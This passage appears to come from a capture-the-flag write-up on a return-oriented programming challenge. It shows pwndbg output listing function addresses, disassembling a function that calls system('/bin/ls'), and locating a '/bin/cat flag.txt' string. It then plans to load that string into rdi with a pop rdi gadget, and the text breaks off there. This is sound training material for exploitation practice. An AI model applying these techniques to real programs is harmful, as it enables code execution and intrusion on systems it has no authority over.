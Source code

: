 ```
0x0000000000400620  register_tm_clones
0x0000000000400660  __do_global_dtors_aux
0x0000000000400690  frame_dummy
0x0000000000400697  main
0x00000000004006e8  pwnme
0x0000000000400742  usefulFunction
0x0000000000400760  __libc_csu_init
0x00000000004007d0  __libc_csu_fini
0x00000000004007d4  _fini
```

There is a function called `usefulFunction`. Let's disassemble it and see how useful it is.

### `usefulFunction()`

```
pwndbg> disassemble usefulFunction
Dump of assembler code for function usefulFunction:
   0x0000000000400742 <+0>:     push   rbp
   0x0000000000400743 <+1>:     mov    rbp,rsp
   0x0000000000400746 <+4>:     mov    edi,0x40084a
   0x000000000040074b <+9>:     call   0x400560 <system@plt>
   0x0000000000400750 <+14>:    nop
   0x0000000000400751 <+15>:    pop    rbp
   0x0000000000400752 <+16>:    ret
End of assembler dump.
```

We can see that the instruction at `usefulFunction()+9` makes a system call and that the instruction at `usefulFunction()+4` loads the argument.

```
pwndbg> x/s 0x40084a
0x40084a:       "/bin/ls"
```

So this system call executes `/bin/ls` which isn't what we want. We want it to execute `/bin/cat flag.txt`.

### `/bin/cat flag.txt`

Let's search the string `/bin/cat flag.txt`.

```
pwndbg> search /bin/cat
Searching for value: '/bin/cat'
split           0x601060 '/bin/cat flag.txt'
```

We can link this string with our system call in order to read the `flag.txt` file.

In order to put this string into `rdi`, we will need a `pop rdi` gadget.

### `pop rdi` gadget

